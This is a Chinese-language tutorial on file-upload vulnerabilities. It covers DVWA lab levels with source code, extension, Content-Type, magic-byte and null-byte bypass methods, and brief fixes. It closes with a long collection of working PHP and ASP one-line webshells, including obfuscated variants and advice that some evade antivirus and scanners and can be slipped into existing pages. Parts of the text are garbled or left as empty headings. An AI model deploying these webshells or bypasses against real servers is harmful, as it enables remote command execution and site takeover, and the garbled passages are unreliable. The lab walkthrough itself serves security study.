# 1、文件上传漏洞原理

## 1.1 为什么会存在文件上传漏洞

1. 在现在web应用中， 文件上传是一个十分常见的功能。如允许用户上传图片、视频、头像和其他类型的文件。但向用户提供的功能越多，受到的攻击风险就越大。
2. 上传文件时，入股服务端代码未对客户端上传的文件进行严格的验证和过滤，就容易造成可以上传任意文件， 包括上传脚本文件（jsp、aspx、php等）

## 1.2 文件上传的危害

非法用户上传恶意的脚本文件可以控制整个网站。甚至控制服务器。这个恶意的脚本文件，又被称为WebShell。

WebShell称为一种网页后门，其具有强大的功能，如查看服务器目录、服务器中的文件、执行系统命令等操作。


## 1.3 文件上传漏洞学习资料

靶场环境：

- DWAV: File Upload模块

  

- [GitHub - Tj1ngwe1/upload-labs: 一个帮你总结所有类型的上传漏洞的靶场](https://github.com/Tj1ngwe1/upload-labs)

  

# 2、DVWA文件上传通关

## 2.1 LOW

原源码分析: 代码中对用户上传的文件未作任何校验。

```php
<?php
if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}

?>
```

上传一个php一句话木马试试




使用蚁剑连接：连接成功



使用蚁剑虚拟终端执行系统命令




## 2.2 Medium

源码分析: 通过查看源码可知，对上传文件的类型和大小做了限制

* 类型：image/jpeg、image/png
* 大小：100000字节（100KB）

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?>
```


上传jpg文件成功。



上传Php脚本失败




绕过思路：先修改脚本后缀，上传成功后抓包修正。上传成功后可使用蚁剑进行连接，执行后续操作。



## 2.3 High

代码分析: 

* 通过后缀名判断文件格式：$uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
* 通过getimagesize函数获取图片信息，如长款等，如果获取不到就不允许上传。

>getimagesize() 函数用于获取图像大小及相关信息，成功返回一个数组，失败则返回 FALSE 并产生一条 E_WARNING 级的错误信息。
>
>
>
>语法格式：array getimagesize ( string $filename [, array &$imageinfo ] )
>
>
>
>getimagesize() 函数将测定任何 GIF，JPG，PNG，SWF，SWC，PSD，TIFF，BMP，IFF，JP2，JPX，JB2，JPC，XBM 或 WBMP 图像文件的大小并返回图像的尺寸以及文件类型及图片高度与宽度。

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}
?>
```


绕过思路：

将一个图片和一个webshell合并为一个文件，如使用：cat image.png webshell.php > image.png。

此时，使用getimagesize可以获取到图片信息，且webshell的后缀是php,也能被Apache解析为脚本文件。

测试合并后的文件上传成功。后续同2.3一样， 抓包修改后缀即可。




上传成功。 此处有一个问题。上传成功后的文件是一个图片+webshell. 如何正确执行。



## 2.4 Impossible

上传文件校验措施：

- 通过后缀名判断问价类型：jpg、jpeg、png
- 文件大小：100000字节
- 真实文件类型：'image/jpeg'
- getimagesize：获取图片信息

```php
// File information
$uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
$uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
$uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
$uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
$uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

// Where are we going to be writing to?
$target_path   = DVWA_WEB_PAGE_TO_ROOT . 'hackable/uploads/';
//$target_file   = basename( $uploaded_name, '.' . $uploaded_ext ) . '-';
$target_file   =  md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;
$temp_file     = ( ( ini_get( 'upload_tmp_dir' ) == '' ) ? ( sys_get_temp_dir() ) : ( ini_get( 'upload_tmp_dir' ) ) );
$temp_file    .= DIRECTORY_SEPARATOR . md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;

// Is it an image?
if( ( strtolower( $uploaded_ext ) == 'jpg' || strtolower( $uploaded_ext ) == 'jpeg' || strtolower( $uploaded_ext ) == 'png' ) &&
   ( $uploaded_size < 100000 ) &&
   ( $uploaded_type == 'image/jpeg' || $uploaded_type == 'image/png' ) &&
   getimagesize( $uploaded_tmp ) ) {

    // Strip any metadata, by re-encoding image (Note, using php-Imagick is recommended over php-GD)
    if( $uploaded_type == 'image/jpeg' ) {
        $img = imagecreatefromjpeg( $uploaded_tmp );
        imagejpeg( $img, $temp_file, 100);
    }
    else {
        $img = imagecreatefrompng( $uploaded_tmp );
        imagepng( $img, $temp_file, 9);
    }
    imagedestroy( $img );
    ...
```


# 3 文件上传漏洞类型


## 3.1 JS检测绕过攻击

### 3.1.1 JS检测原理

在用户上传文件时，在前端代码中对文件做校验，如文件后缀、类型、大小等。符合条件则上传，不符合条件则弹窗提示。

此时数据并没有发送到服务端，只是在客户端浏览器使用Javacript对数据进行检测。

**JS常用的函数：**

* selectFile: 将文件名转换为小写
* substr: 返回字符串的一部分。用于获取文件后缀名
* file_exists: 判断文件是否已存在
* move_uploaded_file: **用于将HTTP POST的文件上传到服务器，如果目标文件已经存在，将会被覆盖**。

### 3.1.2 JS检测绕过

**1、使用浏览器插件**

使用浏览器插件，删除检测文件的JS代码，然后上传文件。

**2、使用BurpSuit**

先修改文件后缀、大小等限制条件以符合上传条件。通过JS检测后，通过抓包把文件信息（如后缀名）等修改成原始可执行的后缀名即可绕过。

## 3.2 文件后缀绕过攻击（服务端）

### 3.2.1 后缀名攻击

**基于文件后缀名验证介绍**
对于文件上传模块来说，尽量避免上传可执行的脚本文件。为了防止上传脚本需要设置对应的验证方式。
基于文件后缀名验证方式分类：
１、基于白名单验证：只针对白名单中有的后缀名，文件才能上传成功。
２、基于黑名单验证：只针对黑名单中没有的后缀名，文件才能上传成功。


文件后缀绕过攻击是指服务器端代码**限制了某些后缀**的文件不允许上传，但是有些Apache是通过修改httpd.conf,可以允许解析其他文件后缀的。如httpd.conf中有如下配置， Apache就可以解析phtml文件。

`AddType application/x-httpd-php .php .phtml`


Apache解析文件顺序：从右到左解析。如文件为：1.php.xxxx。最右边的xxxx是Apache不能解析的格式，则继续往左解析， 遇到php可以解析，则正确解析文件。

**JS常用的函数：**

* pathinfo: 获取文件名后缀，将其转为小写。


### 3.2.2 后缀名绕过


**黑名单验证绕过方案**

* 对于黑名单中的后缀名筛选。绕过黑名单可以通过寻找"漏网之鱼"，寻找某些可以被作为脚本执行同时也不在黑名单中。利用Burpsuite工具截断HTTP请求，利用Intruder模块进行枚举后缀名，寻找黑名单中没有过滤的后缀名。
* **大小写绕过:** Windows系统下，对于文件名中的大小写不敏感，例如：test.php和TeSt.PHP是一样的。
  Linux系统下，对于文件名中的大小写敏感。例如：test.php和TesT.php就是不一样的。
  此时可以通过修改文件后缀，使用大小写混合的写法绕过缺少了对上传文件名获取的大小写转换的黑名单验证。
* **空格绕过原理**Windows系统下，对于文件名中的空格会被作为空处理，程序中的检测代码却不能自动删除空格。从而绕过黑名单。
  针对这样的情况需要使用Burpsuite截断HTTP请求之后，修改对应的文件名，添加空格。
* **.号绕过原理**: Windows系统下，文件名后缀最后一个点会被自动去除。例如：Windows下新建一个1.php.文件，查看。此时可以通过修改上传文件的后缀，使用*.php.的写法绕过缺少了对去除文件名最后一个点的处理的验证进行绕过。
* **特殊符号绕过原理: **Windows系统下，如果上传的文件名中test.php::DATA 会 在 服 务 器 上 生 成 一 个 test.php的 文 件 ， 其 中 内 容 和 所 上 传 内 容 相 同 ，并 被 解 析 。例如：在 Windows系统新建一个文件名为1.php::DATA会在服务器上生成一个test.php的文件，其中内容和所上传内容相同，并被解析。例如： 在Windows系统下新建一个文件名为1.php::DATA会在服务器上生成一个test.php的文件，其中内容和所上传内容相同，并被解析。例如：在Windows系统下新建一个文件名为1.php::DATA的文件，查看效果。但是在Windows下新建的文件名中包含特殊符号不能成功新建。当验证代码黑名单过滤中没有过滤掉 ::DATA，此时就可以通过上传文件后缀为1.php::DATA，此时就可以通过上传文件后缀为1.php::DATA，此时就可以通过上传文件后缀为1.php::DATA格式的文件进行验证绕过。


**白名单绕过方案：**


## 3.3 文件类型绕过

### 3.3.1 攻击原理

如果服务端代码通过COntent-type来判断文件格式。则存在被绕过的可能。

客户端上传数据时，数据包中的Content-type的值是可以修改的，常见的文件类型；

- php文件：application/octet-stream
- jpeg、png、jpg: image/jpeg
- jar: application/java-archive
- apk： application/vnd.android.package-archive
- txt: text/plain
- htm、html: text/html

### 3.3.2 绕过文件类型检测

服务段检测文件类型原理： 服务带代码通过$_FILES[\"file\"]\["type"]来获取客户端请求数据包中的Conten-type字段，来判断文件类型。


绕过方法： 通过抓包修改客户端发送数据包中的Conten-type值来绕过。


## 3.4 文件截断绕过攻击

### 3.4.1 攻击原理


### 3.4.2 绕过原理


# 4、文件上传漏洞总结


## 4.1 文件上传修复建议

- 通过白名单的方式判断文件后缀是否合法
- 对上传的文件进行重命名


## 4.2 文件上传漏洞总结


### 4.2.1 漏洞原理

- 对于上传文件的后缀名（扩展名）没有做较为严格的限制
- 对于上传文件的MIMETYPE(用于描述文件的类型的一种表述方法) 没有做检查
- 权限上没有对于上传的文件目录设置不可执行权限，（尤其是对于shebang类型的文件）
- 对于web server对于上传文件或者指定目录的行为没有做限制

### 4.2.2 绕过技术

前端做防御的： 不管前端做什么校验，都可以通过抓包修改客户端发送的数据包都可以绕过。

后端做防御的：

* 后缀名检查：分为白名单和黑名单校验
* Content-Type文件来行检查: 使用各种各样的工具（如burpsuite）强行篡改Header就可以，将Content-Type: application/php改为其他web程序允许的类型。
* 文件头检查：利用的是每一个特定类型的文件都会有不太一样的开头或者标志位。给上传脚本加上相应的幻数头字节就可以，php引擎会将 <?之前的内容当作html文本，不解释而跳过之，后面的代码仍然能够得到执行
* 文件系统00截断：利用00截断就是利用程序员在写程序时对文件的上传路径过滤不严格，产生0x00、%00上传截断漏洞。通过抓包截断将【evil.php.jpg】后面的一个【.】换成【0x00】。在上传的时候，当文件系统读到【0x00】时，会认为文件已经结束，从而将【evil.php.jpg】的内容写入到【evil.php】中，从而达到攻击的目的。




## 4.3 webshell 总结

Php webshell

```php
##PHP：
<?php @eval($_POST['r00ts']);?> 
<?php phpinfo();?>
<?php @eval($_POST[cmd]);?>
<?php @eval($_REQUEST[cmd]);?>
<?php assert($_REQUEST[cmd]); ?>
<?php //?cmd=phpinfo() @preg_replace("/abc/e",$_REQUEST['cmd'],"abcd"); ?>
<?php 
//?cmd=phpinfo();
$func =create_function('',$_REQUEST['cmd']);
$func();
?>

<?php
//?func=system&cmd=whoami
$func=$_GET['func'];
$cmd=$_GET['cmd'];
$array[0]=$cmd;
$new_array=array_map($func,$array);
//print_r($new_array);
?>

<?php 
//?cmd=phpinfo()
@call_user_func(assert,$_GET['cmd']);
?>

<?php 
//?cmd=phpinfo()
$cmd=$_GET['cmd'];
$array[0]=$cmd;
call_user_func_array("assert",$array);
?>

<?php 
//?func=system&cmd=whoami
$cmd=$_GET['cmd'];
$array1=array($cmd);
$func =$_GET['func'];
array_filter($array1,$func);
?>

<?php usort($_GET,'asse'.'rt');?> php环境>=<5.6才能用
<?php usort(...$_GET);?>  php环境>=5.6才能用
<?php eval($_POST1);?> 
<?php if(isset($_POST['c'])){eval($_POST['c']);}?> 
<?php system($_REQUEST1);?> 
<?php ($_=@$_GET1).@$_($_POST1)?> 
<?php eval_r($_POST1)?> 
<?php @eval_r($_POST1)?>//容错代码 
<?php assert($_POST1);?>//使用Lanker一句话客户端的专家模式执行相关的PHP语句 
<?$_POST['c']($_POST['cc']);?> 
<?$_POST['c']($_POST['cc'],$_POST['cc'])?> 
<?php @preg_replace("/[email]/e",$_POST['h'],"error");?>/*使用这个后,使用菜刀一句话客户端在配置连接的时候在"配置"一栏输入*/:<O>h=@eval_r($_POST1);</O> 
<?php echo `$_GET['r']` ?> 

<script language="php">@eval_r($_POST[sb])</script> //绕过<?限制的一句话

<?php (])?>   上面这句是防杀防扫的！网上很少人用！可以插在网页任何ASP文件的最底部不会出错，比如 index.asp里面也是可以的！

<?if(isset($_POST['1'])){eval($_POST['1']);}?><?php system ($_REQUEST[1]);?> 
加了判断的PHP一句话，与上面的ASP一句话相同道理，也是可以插在任何PHP文件 的最底部不会出错！

<%execute request(“class”)%><%'<% loop <%:%><%'<% loop <%:%><%execute request (“class”)%><%execute request(“class”)'<% loop <%:%> 
无防下载表，有防下载表可尝试插入以下语句突破的一句话 
<%eval(request(“1″)):response.end%> 备份专用
```

